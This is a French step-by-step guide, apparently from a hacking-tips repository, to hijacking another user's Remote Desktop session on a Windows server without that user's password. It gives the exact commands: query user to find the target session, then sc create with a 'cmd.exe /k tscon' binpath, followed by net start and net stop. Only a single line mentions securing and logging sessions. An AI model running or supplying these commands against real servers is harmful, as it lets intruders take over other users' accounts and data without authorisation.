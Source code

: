 # Hijack session pc distant avec la faille tscon

## tscon
Cette commande est utilisée pour se connecter sur une autre session d'un PC distant (serveur par ex.).
Elle nécessite le nom de destination et l'ID de session pour s'exécuter.

## query user
Cette commande permet d'afficher la liste et informations de session de tous les utilisateurs s'ayant déjà connecté au serveur distant.
Utile ici pour récupérer le nom de destination et l'ID de session à hijacker.

## service (sc)
Cette commande permet de voler (hijacker) la session de n'importe quelle cible, sans mot de passe (password bypassing) :  
* **<process_name>** est le nom du service à créer (nom bidon, aucune importance, faudra juste arrêter le service avec le meme nom ensuite)  
* **<user 2_ID>** est l'**ID** (numéro d'identification) de la **session-cible**, celle à hijacker  
* **<session_name>** est le nom de **votre** session  
```
sc create <process_name> binpath= "cmd.exe /k tscon <user 2_ID> /dest:<session_name>"
```

## Exemple
Commande query user à lancer dans un terminal (cmd, powershell...) :
![query user](https://github.com/Sefiria/ConseilHack/blob/4f5599508ecff62dee4d58175405257ac78a1636/Documentation/En%20vrac/res/Hijack%20session%20pc%20distant%20annexe.png?raw=true)

Exécuter ensuite la commande du paragraphe "service" ainsi que celle pour démarrer le service, exemple ici :  
*Nous sommes dans cet exemple Titi, et souhaitons voler la session de Toto*  
* **<process_name> = hijack** (nom du service - le nom n'a pas d'importance)  
* **<user 2_ID> = 8** (ID de la session-cible)  
* **<session_name> = rdp-tcp#1** (nom de notre session actuelle)
```
sc create hijack binpath= "cmd.exe /k tscon 8 /dest:rdp-tcp#1"
net start hijack
```
**Félicitations, vous venez d'Hijacker une session distante via une faille de tscon exécuté par service sans mot de passe.**  
Comprenez alors l'importance de sécuriser, logger les sessions utilisateurs.  
**N'oubliez pas de stopper le service une fois avoir fini avec la commande *net stop <process_name>*** :
```
net stop hijack
```
